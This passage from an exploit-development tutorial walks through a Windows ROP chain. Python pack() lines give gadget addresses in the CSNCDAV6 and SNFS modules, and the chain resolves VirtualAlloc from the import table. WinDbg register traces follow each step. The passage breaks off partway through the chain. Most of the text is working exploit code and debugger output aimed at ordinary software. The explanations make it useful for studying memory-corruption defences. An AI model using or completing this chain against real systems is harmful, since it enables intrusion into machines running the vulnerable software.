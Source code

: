 
Lets step through the instructions step by step to explain. 

1. We copy our `EAX` value to `EBP` as we will be using the `EAX` register for the next instructions.
    
    ```python
    rop += pack("<L", (0x50218139)) # push eax ; pop ebp ; ret  ;  (1 found)
    
    eax=019ee2f0 ebx=42424242 ecx=ffffffe4 edx=770313a0 esi=42424242 edi=00669360
    eip=50218139 esp=019ee32c ebp=51515151 iopl=0         nv up ei pl nz ac pe cy
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
    CSNCDAV6!EncodeFileW+0xdfe1:
    50218139 50              push    eax
    0:001> p
    eax=019ee2f0 ebx=42424242 ecx=ffffffe4 edx=770313a0 esi=42424242 edi=00669360
    eip=5021813a esp=019ee328 ebp=51515151 iopl=0         nv up ei pl nz ac pe cy
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
    CSNCDAV6!EncodeFileW+0xdfe2:
    5021813a 5d              pop     ebp
    0:001> p
    eax=019ee2f0 ebx=42424242 ecx=ffffffe4 edx=770313a0 esi=42424242 edi=00669360
    eip=5021813b esp=019ee32c ebp=019ee2f0 iopl=0         nv up ei pl nz ac pe cy
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
    CSNCDAV6!EncodeFileW+0xdfe3:
    5021813b c3              ret
    ```
    
2. We pop `0x100252E0` into the `EAX` register as per our IAT table.
    
    ```python
    rop += pack("<L", (0x10014429)) # pop eax ; ret  ;
    rop += pack("<L", (0x100252E0)) # VirtualAlloc Address
    
    0:001> p
    eax=019ee2f0 ebx=42424242 ecx=ffffffe4 edx=770313a0 esi=42424242 edi=00669360
    eip=10014429 esp=019ee330 ebp=019ee2f0 iopl=0         nv up ei pl nz ac pe cy
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
    SNFS!_heap_init+0x5b:
    10014429 58              pop     eax
    0:001> p
    eax=100252e0 ebx=42424242 ecx=ffffffe4 edx=770313a0 esi=42424242 edi=00669360
    eip=1001442a esp=019ee334 ebp=019ee2f0 iopl=0         nv up ei pl nz ac pe cy
    cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000217
    SNFS!_heap_init+0x5c:
    1001442a c3              ret
    ```
    
3. We clear our the `EDX` register.
4. We push `EBP` onto the stack (our previous `EAX`) value. We then copy the location referenced at the address in `EAX` which is `0x77383db0` our resolved `KERNEL32!VirtualAlloc` address into `EDX` using the addition. `0 + ADDRESS = ADDRESS`. Finally the `POP EAX` instruction insure that the `EAX` value is restored to the previous value before step 1.
    
    ```python
    rop += pack("<L", (0x10019c61)) # push ebp ; add edx, dword [eax] ; pop eax ; ret  
    